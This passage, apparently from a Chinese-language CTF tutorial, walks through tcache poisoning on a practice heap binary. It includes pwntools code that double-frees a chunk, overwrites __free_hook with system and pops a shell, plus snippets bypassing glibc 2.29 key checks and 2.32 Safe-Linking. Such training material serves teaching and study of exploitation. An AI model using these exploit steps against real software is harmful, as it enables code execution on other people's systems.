# chunks[2] 仍指向 addr_A，A 的 user data 前 8 字节 = "/bin/sh\x00"
# free(chunks[2]) → __free_hook(A) → system(A) → system("/bin/sh")
delete(2)

log.success("Shell triggered!")
p.interactive()
```

#### 为什么 `delete(2)` 最终触发的是 `system("/bin/sh")`

这是一个容易被忽略的细节。经过阶段二的多次 `alloc`，`chunks[2]` 的值经历了如下变化：

| 步骤 | `chunks[2]` 的值 | 说明 |
|------|-------------------|------|
| `alloc(2, 0x20, '/bin/sh')` | `addr_A` | 初始分配 |
| `delete(2)` × 2 | `addr_A`（未变） | free 不修改指针 |
| `alloc(3, ...)` | `addr_A`（未变） | alloc 只修改 `chunks[3]` |
| `alloc(4, ...)` | `addr_A`（未变） | alloc 只修改 `chunks[4]` |
| `alloc(5, ...)` | `addr_A`（未变） | alloc 只修改 `chunks[5]` |
| `delete(2)` | `addr_A` | **free(addr_A) → system("/bin/sh")** |

`chunks[2]` 从始至终指向 `addr_A`，而 `addr_A` 的 user data 前 8 字节是 `/bin/sh\x00`（虽然经过 alloc(3)(4) 的写入，但 alloc(3) 写的是 `p64(free_hook)` 会覆盖前 8 字节）。

等一下——alloc(3) 确实会覆盖 addr_A 的 user data！那 `/bin/sh` 就没了。

**修正**：需要将 `/bin/sh` 放在一个不会被覆盖的 chunk 中：

```python
# 修正后的阶段二和三

# 先分配一个存放 "/bin/sh" 的 chunk（不会被后续操作覆盖）
alloc(8, 0x20, b'/bin/sh\x00')   # chunks[8] = addr_shell, 存放 "/bin/sh"

# Tcache Poisoning
alloc(2, 0x20, b'X' * 8)          # chunk_A
delete(2)                          # tcache: A→NULL, c=1
delete(2)                          # double free, tcache: A→A(cycle), c=2

alloc(3, 0x20, p64(free_hook))    # 取 A，覆写 A->fd = free_hook
alloc(4, 0x20, b'P' * 8)          # 取 A，entries = free_hook
alloc(5, 0x20, p64(system))       # 取 free_hook，写入 system

# 触发 shell：free(chunks[8]) → __free_hook(addr_shell) → system("/bin/sh")
delete(8)
```

**根本原因**：`__free_hook` 被覆写为 `system` 后，任何 `free(ptr)` 调用都会变成 `system(ptr)`。只要 `ptr` 指向的内存以 `/bin/sh\x00` 开头，就能获取 shell。

---

### 阶段三的替代方案

不一定非要覆写 `__free_hook`，根据目标环境可选择不同的写入目标：

| 写入目标 | 写入内容 | 触发方式 | 适用场景 |
|----------|----------|----------|----------|
| `__free_hook` | `system` | `free("/bin/sh")` | glibc < 2.34（有 `__free_hook`） |
| `__malloc_hook` | `one_gadget` | 任意 `malloc` 调用 | 需要找到 `one_gadget` 偏移 |
| `__malloc_hook` | `system` | `malloc(0) → system(0)` 无效 | 一般不用 |
| `.fini_array` | `one_gadget` | 程序退出时 | No PIE，地址固定 |
| GOT 表项 | `system` | 调用被覆写的函数 | Partial RELRO |

**glibc 2.34+ 的变化**：`__free_hook`、`__malloc_hook` 等 hook 变量被移除（地址为 0）。此时需要改用其他技术，如修改 `_IO_list_all` 实现 FSOP（File Stream Oriented Programming），或覆写栈上的返回地址。

---

### 不同 glibc 版本的利用差异

#### glibc 2.26-2.28：零防护

tcache 没有任何完整性检查，double free 直接可用。本案例的 exploit 在这些版本上可以直接跑通。

#### glibc 2.29：增加 key 检测

```c
// glibc 2.29 tcache_put 新增检查
if (__glibc_unlikely (e->key == tcache))
    malloc_printerr("free(): double free detected in tcache");
e->key = tcache;  // 记录 tcache 结构体地址
```

`key` 字段位于 user data +0x08（fd 之后）。free 时设置为 `tcache_perthread_struct` 地址，再次 free 时检查是否相等。

**绕过方法**：在两次 free 之间，利用 UAF 写清零 key 字段：

```python
delete(2)                    # free(A), A->key = tcache
# A 的 user data: [fd=NULL] [key=tcache_ptr]
# 利用 UAF 写将 A+8 的位置清零
alloc(3, 0x20, b'X' * 8 + p64(0))  # 取 A，覆盖 A->key = 0
delete(3)                    # 再次 free(A), key 检查通过（0 ≠ tcache）
```

但这需要额外的 alloc 操作，改变了 tcache 链表状态。实际利用时需要更精细地控制。

#### glibc 2.32：增加 Safe-Linking

```c
// glibc 2.32 tcache_put
e->next = (tcache_entry *)((uintptr_t)e->next ^ ((uintptr_t)e >> 12));
// tcache_get
e->next = (tcache_entry)((uintptr_t)e->next ^ ((uintptr_t)e >> 12));
```

fd 指针被异或混淆：`stored_fd = real_fd ^ (chunk_addr >> 12)`。

**绕过方法**：需要泄露堆地址以计算 `(chunk_addr >> 12)`，然后在写入时构造正确的异或值：

```python
# 假设已泄露堆地址 heap_leak
chunk_addr = heap_leak + offset_to_chunk_A
xor_key = chunk_addr >> 12
encoded_target = free_hook ^ xor_key
alloc(3, 0x20, p64(encoded_target))  # 写入混淆后的 fd
```

#### glibc 2.34+：移除 Hook

`__free_hook` 等被移除。需要转向其他利用方式：

- **FSOP**：利用 `_IO_list_all` 和伪造 `_IO_FILE` 结构体
- **House of Cat**：利用 `_IO_cookie_jumps` vtable
- **栈上 ROP**：通过堆地址泄露 + 栈地址泄露，最终控制返回地址

---

### 调试验证技巧

#### GDB 观察 tcache 状态

```bash
# 使用 pwndbg（推荐）
pwndbg> bins                    # 显示所有 bin 的状态
pwndbg> tel tcache              # 查看 tcache_perthread_struct

# 手动查看某个 tcache bin
pwndbg> p *(tcache_perthread_struct *)<tcache_addr>
# 或
pwndbg> telescope <tcache_addr> 64+2   # counts[64] + entries[64]

# 查看具体 chunk 的 fd 链
pwndbg> tel <chunk_user_data_addr> 4
```

#### 关键断点设置

```bash
# 在 tcache_get 处断点（分配时）
b *tcache_get
# 在 tcache_put 处断点（释放时）
b *tcache_put
# 条件断点：只在特定大小时中断
b *tcache_get if $rdi == 4    # tc_idx=4 对应 0x20 大小（(0x20-0x20)/0x10=0...需确认）
```

#### 验证 Double Free 是否成功

```bash
# free(A) 前后对比
pwndbg> bins
# 正常 free: tcache 0x20: count=1, A→NULL
# double free: tcache 0x20: count=2, A→A (自环)

# 检查 A->fd 是否指向自身
pwndbg> tel <A_user_data> 2
# 应该看到: [A自身的地址]
```

---

### 常见错误与排查

| 问题 | 现象 | 原因 | 解决方案 |
|------|------|------|----------|
| 泄露地址异常 | 地址不含 `0x7f` 或明显不对 | show 输出被截断或解析错误 | 检查 `ljust(8, b'\x00')` 和 strip 逻辑 |
| `malloc` 不从 tcache 返回 | 第 3 次 alloc 返回的不是目标地址 | count=0 且 entries=NULL（链表被耗尽） | 确认 double free 成功，entries 指针正确 |
| 程序崩溃在 `free` | `SIGABRT: double free detected` | glibc 版本 ≥ 2.29，key 检测触发 | 清零 key 字段或使用 UAF 读写组合 |
| `system` 不执行 | `free` 调用成功但没有 shell | `__free_hook` 地址计算错误 | 用 GDB 确认 `p __free_hook` 的实际地址 |
| `/bin/sh` 找不到 | `system` 执行但退出 | chunk 中的字符串不含有效的 `/bin/sh` | 确认写入的是 `b'/bin/sh\x00'` 且未被后续操作覆盖 |
| `read` 写入不完整 | payload 只写了一部分 | `p.send` vs `p.sendafter` 使用不当 | 确保 `sendafter(b'Data: ', data)` 在提示后发送 |

#### 一个隐蔽的坑：`read` 的部分读取

程序用 `read(0, chunks[idx], size)` 写入数据。`read` 系统调用**不保证读满** `size` 字节——它可能只读到部分数据（特别是通过管道/终端输入时）。在 pwntools 中，`p.sendafter` 是同步的，通常能保证完整发送，但如果 payload 中含有 `\n`（`scanf` 会消费），可能干扰后续输入。

**安全做法**：用 `p.sendafter` 而非 `p.sendlineafter` 发送 payload（避免多余的 `\n`），并确保 payload 长度等于 `size`。

---

### 扩展：从 Tcache Poisoning 到高级堆利用

Tcache Poisoning 是堆利用的"入门砖"，掌握后可以向以下方向拓展：

| 技术 | 核心思想 | 难度 |
|------|----------|------|
| Tcache Stashing Unlink Attack | 利用 tcache 与 small bin 的交互，通过 unsorted bin 向 small bin 插入伪造 chunk | ★★★ |
| Large Bin Attack | 修改 large bin chunk 的 fd_nextsize/bk_nextsize，在 malloc 整理时向任意地址写入堆地址 | ★★★ |
| House of Botcake | 结合 tcache 和 unsorted bin 的 double free，绕过 glibc 2.29 的 key 检测 | ★★★★ |
| FSOP（House of Cat） | 伪造 `_IO_FILE` 结构体和 vtable，通过 `_IO_flush_all_lockp` 控制 RIP | ★★★★★ |
| Safe-Linking 绕过 | 泄露堆地址后计算 XOR key，构造混淆后的 fd 指针 | ★★★ |

---

### 小结

Tcache Poisoning 的利用链可归结为三步：

1. **泄露**：释放大 chunk → unsorted bin → UAF 读 fd → 算出 libc_base
2. **投毒**：double free 构造环形链表 → 覆写 fd 为目标地址 → `malloc` 返回目标地址
3. **劫持**：写 `__free_hook = system` → `free("/bin/sh")` → shell

这三步的核心前提只有两个：**UAF（读+间接写）** 和 **tcache 无完整性检查**（或能绕过检查）。理解了这两点，无论靶程序怎么变形，利用思路都是一样的。
